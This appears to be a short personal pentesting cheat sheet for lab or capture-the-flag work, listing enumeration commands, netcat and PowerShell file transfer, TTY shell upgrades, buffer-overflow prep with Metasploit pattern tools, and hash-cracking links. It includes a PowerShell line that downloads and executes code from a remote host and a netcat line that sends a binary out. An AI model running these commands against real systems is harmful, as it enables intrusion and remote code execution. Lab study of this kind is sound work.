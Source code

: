 # Tips

LinuxEnum: 

find / -perm -4000 2>/dev/null   //SUID files  \n
uname -a                         //Posible Linux Kernel Exploit

WindowsEnum:
whoami /all
systeminfo


File Transfer:
nc:
nc -l -p 4445 > ovrflw
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw

powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"

Interactive shell:

python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg

BufOverFlow:

ldd ovrflw | grep libc
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000


Hashes decrypt:
https://cmd5.ru/
https://hashes.org/

Links:
https://book.hacktricks.xyz/    /////Cheat Sheet Pentesting all the thing
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //////File Transfer Cheat Sheet
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   /////////SMB enumeration CheatSheet
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //////////BuferOverFlow tutor
